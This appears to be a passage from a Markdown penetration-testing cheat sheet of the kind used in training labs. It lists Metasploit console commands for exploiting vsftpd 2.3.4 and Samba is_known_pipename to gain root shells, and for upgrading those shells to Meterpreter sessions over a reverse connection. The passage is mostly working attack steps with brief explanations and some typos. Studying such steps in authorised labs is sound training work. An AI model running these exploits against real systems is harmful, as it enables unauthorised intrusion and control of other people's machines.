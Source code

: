 > Set up a multi handler to get a meterpreter shell.

```CMD
./meterpreter.exe
```

> Run the script from the java shell and you'll receive a meterpreter session on the msfconsole.

#### VSFTPD Exploitation:

```msfconsole
search vsftpd
use 1
set RHOST <ip-address>
exploit
```

> Exploit module for `vsftpd 2.3.4`. It gives you rot privileges

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <local-ip>
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command.

#### SAMBA Exploitation

```msfconsole
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
set RHOST <ip-address>
check
exploit
```

> `check` command can be used to identify whether the system is vulnerable or not. This will give us a command shell session not a meterpreter session so we would have to go it our selves using `shell_to_meterperter` module.

```msfconsole
CTRIL + Z
y
use post/multi/manage/shell_to_meterpreter
show options
set LHOST <local-ip> 
set LHOST eth1
run
```

> It can be used to convert the shell session to a meterpreter session. If it gives an error don't worry you can access the session from the `sessions` command.
